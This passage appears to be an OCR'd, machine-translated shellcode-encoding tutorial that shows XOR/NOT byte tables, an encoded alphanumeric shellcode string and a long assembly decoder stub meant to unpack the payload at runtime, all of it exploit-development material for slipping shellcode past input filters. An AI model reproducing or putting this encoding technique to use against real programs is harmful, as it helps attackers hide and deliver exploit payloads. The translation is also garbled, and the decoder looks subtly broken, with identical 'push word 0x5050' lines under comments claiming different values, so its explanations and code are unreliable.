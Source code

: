 ```
\xb0 not \x4f
\x01 xor \x50 \x51
\xcd not \x32
\x80 not xor \x50 \x2f
```



That’s quite tedious, but nothing prevents you from xorer to get a pretty phrase
([http://www.shell-storm.org/shellcode/files/shellcode-650.php](http://www.shell-storm.org/shellcode/files/shellcode-650.php) example) or on only
alphanumeric characters!

We get here: 

```
1?$1161-MYjZhthanhjonavNLQOT2/$1OQ2/
```



### III – 3. Decoding (method 1)

—————————–

Tools and xor in hand, it is very easy to decode the sentence.
The challenge remaining is to find the right not to fall on the right byte xorer, we determine
subsequently using NDISASM（应该是一个反汇编工具）.
For simplicity starting 40 (28 in hex) which is a round number, which corresponds to a character
Print. The shellcode decoding should therefore not exceed 86 bytes with this method.



```asm
xor [eax + 41], bh; We begin with the second since the first byte is 31 with a not (xor ff)
xor [eax + 43], bh
xor [eax + 45], bh
xor [eax + 47], bh
xor [eax + 48], bh
push word 0x5050; We modify dx order xorer with 4A
pop dx
xor [eax + 49], dh
push word 0x5050
pop dx
xor [eax +51], dh
xor [eax + 62], bh
xor [eax + 63], bh; do not xor
push word 0x5050
pop dx
xor [eax + 63], dh
xor [eax + 64], bh
push word 0x5050
pop dx
xor [eax +65], dh
xor [eax + 66], bh
push word 0x5050
pop dx
xor [eax +67], dh
xor [eax + 68], bh
xor [eax +69], bh
push word 0x5050
pop dx
xor [eax +69], dh
xor [eax + 71], bh
xor [eax + 72], bh
push word 0x5050
pop dx
xor [eax +73], dh
xor [eax + 74], bh
```